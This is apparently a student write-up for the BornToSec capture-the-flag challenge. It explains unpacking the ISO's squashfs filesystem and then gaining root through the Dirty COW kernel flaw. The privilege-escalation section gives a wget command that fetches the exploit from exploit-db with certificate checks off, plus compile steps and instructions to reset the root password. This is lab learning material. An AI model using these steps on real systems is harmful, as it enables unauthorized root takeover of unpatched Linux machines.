


## Unsquash

* To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file. 

* In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function. 

You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs

-----------------------------------------------------------------------------------------

## Privilege escalation

* We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system:

* As we know we can execute scripts from tmp folder, only need to upload them there

* There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version

* A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
* An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
* This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

* getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

* Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`

* Then execute it and provide a new password for the root user, then just su root.

* Done!
